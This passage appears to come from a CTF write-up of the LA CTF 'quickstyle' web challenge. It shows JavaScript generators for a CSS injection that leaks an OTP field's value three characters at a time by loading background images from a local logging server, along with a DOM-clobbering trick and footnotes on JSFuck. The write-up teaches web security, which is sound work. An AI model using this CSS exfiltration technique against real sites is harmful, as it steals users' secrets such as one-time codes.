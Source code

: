 Perhaps unsurprisingly, this is not how CSS nesting works.

Because of the CSP, I can't `<link>` or `@import` a CSS file from a custom web server that streams new rules over as characters get discovered one by one.

What I could do, however, is to generate a CSS file that checks if every possible sequence of three characters is in the string. Then, hopefully I can reconstruct the OTP from just these trigraphs.


```js
{const alpha = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
let html = '<form name=querySelectorAll><style>'
for (const a of alpha)
  for (const b of alpha)
    for (const c of alpha)
      void (html+=`[value*=${a}${b}${c}]{background:url(http://localhost:8000/${a}${b}${c})}`)
//location = '/?user=1&page=' + html.slice(0, 6e6)
 console.log(6e6/ html.length, 'kept')
await Deno.writeTextFile('heyy.html', html.slice(0, 6e6))}
```

Each trigraph requires an attribute selector that checks if the trigraph is in the OTP input's value, and if so, it sets the input's background image to an image URL that includes the trigraph. It printed `0.45773311489291907 kept`, so less than half of the trigraphs could fit under the 6 MB limit.

I played around with the length of the URL to see if a short domain was important for the image URL, but compared to the rest of the selector, the length of the URL did not significantly affect how many trigraphs could fit in 6 MB. It would always keep around half of all trigraphs.

So okay, maybe even with half the trigraphs being reported, the remaining ones might still be enough to reconstruct the string.

I started a simple web server that just prints out the URLs of requests received:


```ts
 Deno.serve((req) => (console.log(decodeURIComponent(req.url)), new Response("hello world")));
```

The first issue I came across was that only one trigraph was being reported at a time. This was because multiple rules matched (because the OTP contains many trigraphs) but overrode each other's `background-image`. The input can only have one `background-image` at a time, so only one background image was being requested from my server.

To solve this, I used CSS variables to avoid multiple rules overriding each other:


```js
{const alpha = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
let html = '<form name=querySelectorAll><style>input{--_:none;'
 let background = 'background:var(--_)'
 const vars = 'abcdefghijklmnopqrstuvwxyzá'
 for (const l of vars) {
   background += `,var(--${l})`
   html += `--${l}:none;`
 }
 html += background +'}'
      let i =0
for (const a of alpha) {
  html+=`[value^=${a}]{--_:url(http://localhost:8000/${a})}`
  for (const b of alpha)
    for (const c of alpha){
       (html+=`[value*=${a}${b}${c}]{--${vars[i%vars.length]}:url(http://localhost:8000/${a}${b}${c})}`)
i++
    }}
//location = '/?user=1&page=' + html.slice(0, 6e6)
 console.log(6e6/ html.length, 'kept')
await Deno.writeTextFile('heyy.html', html.slice(0, 6e6))}
```


[acmucsd]: https://acmucsd.com/communities#Cyber
[acmucla]: https://www.acmcyber.com/
[lactf]: https://lac.tf/
[jsfuck]: https://jsfuck.com/
[strings]: https://en.wikipedia.org/wiki/Strings_(Unix)
[ghidra]: https://ghidra-sre.org/
[dogbolt-aplet321]: https://dogbolt.org/?id=4c61df44-da40-4158-80b4-f4155fbf227e
[strstr]: https://cplusplus.com/reference/cstring/strstr/
[bendera]: https://en.wiktionary.org/wiki/bendera#Indonesian
[wiki]: https://id.wikipedia.org/wiki/Bendera_Indonesia
[dcode]: https://www.dcode.fr/monoalphabetic-substitution
[indofreq]: https://www.sttmedia.com/characterfrequency-indonesian
[^1]: Something I never got to use at UCSD because UCSD didn't have a two-year housing guarantee.
[^2]: The deepest darkest secret doesn't work because the server just sets it to `todo` for all non-Samy users.
[fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[italics]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics
[^10]: You might be wondering how JSFuck can create a function in the first place. You can get `a` from `false` and `t` from `true`, and arrays have a method named `at`, which you can access with `[]['a' + 't']`. It's also possible to get the other letters in `constructor`, so you can use `[]['at']['constructor']` to get a reference to the `Function` constructor, which you can use to convert strings to functions. For example, `Function('return 3')` creates a function that returns 3.
[prior]: http://127.0.0.1:4000/longer-tweets/ctf/#ctf-node-calculator-escape-vm-codegeneration-false
[vuln]: https://security.snyk.io/vuln/SNYK-JS-SAFEEVAL-3373064
[gen]: ../files/lactf/lactf-jsfudge.js
[gener]: ../files/lactf/jsfudge-codegen.js
[e]: https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem#L10
[polyglot]: https://en.wikipedia.org/wiki/Polyglot_(computing)
[^11]: This was originally a Node-specific feature that has recently been [standardized into JavaScript][shebang], adding a fourth comment syntax to JavaScript's existing family of `//`, `/* */`, and `<!-- -->`.
[shebang]: https://github.com/tc39/proposal-hashbang
[server]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/server.js
[note]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/note.js
[nesting]: https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_nesting
[^12]: I tried looking through my browsing history, but there's no evidence of me ever learning about this from anything online. Based on my browsing history, it just looks like I was trying things like `<span id="document">` then suddenly had a stroke of genius and tried doing `<form name=querySelectorAll>`. Then, I got confused where I got this idea from and tried to look up "form name getelementbyid injection" to find the original post.
[^13]: Again, as noted at the beginning of the article, everyone at UCSD is part of our team. I don't think this counts as cheating. At worst it's just some OSINT.
[paradox]: https://www.dcode.fr/birthday-problem
[^14]: It's possible for a trigraph to be missing a pair, like having `abc` but not `ab`, due to CSS variable collisions.
[worker]: https://workers.cloudflare.com/
[tunnel]: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/
[workers]: https://blog-cloudflare-com.webpkgcache.com/doc/-/s/blog.cloudflare.com/announcing-workers-dev/
[^15]: Like our dining halls' mobile ordering app.